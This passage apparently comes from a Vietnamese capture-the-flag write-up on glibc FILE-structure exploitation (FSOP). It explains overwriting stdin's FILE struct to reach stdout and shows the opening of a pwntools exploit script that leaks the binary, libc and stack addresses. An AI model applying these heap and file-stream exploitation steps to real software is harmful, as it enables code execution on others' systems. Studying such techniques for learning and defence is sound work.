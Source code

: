 - và vì ở đây ```stdout``` sẽ nằm xa hơn sau ```sdtin```  0xce0 byte , vì vậy ta có thể ghi được ```stdout```

lúc này ```IO_BUF_END``` đã được mở rộgn thành ```0x7fb2a1132764``` và ta đã ghi đè lên phần còn lại của ```stdin```

![kaka](/assets/images/fsop3.png)

- vì vậy trước hết ta cần setup sao cho các dữ liệu quan trọng ở ```stdin``` sẽ không bị phá hủy , những thứ đó sẽ là ```lock``` , ```offset``` , ```wide_data``` , ```_mode```
- ta sẽ ghi dữ liệu ở vị trí ```_cur_column``` + 3 nên sẽ padding thêm 5 bytes , tiếp theo là ```stdfile_0_lock``` ...

- sau khi overwrite struct ```stdin``` thì ta sẽ padding nó đến ```stdout``` và dùng payload của [nobodyisbody](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#3---the-fsop-way-targetting-stdout)

exp : 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()
"""
gdb.attach(p,gdbscript='''
           brva 0x00000000000012E4
           brva 0x0000000000001318
           ''')
"""
exe.address = int((b'0x' + p.recvuntil(b'-')[:-1]),16)
log.info(f'exe: {hex(exe.address)}')

p.recvlines(8)
libc.address = int((b'0x' + p.recvuntil(b'-')[:-1]),16)
log.info(f'libc {hex(libc.address)}')
p.recvuntil(b'Here is an extra: ')
stack_leak = int(p.recvline()[:-1],16)
log.info(f'stack: {hex(stack_leak)}')
log.info(f'stdin: {hex(libc.sym._IO_2_1_stdin_)}')
log.info(f'stdout: {hex(libc.sym._IO_2_1_stdout_)}')

```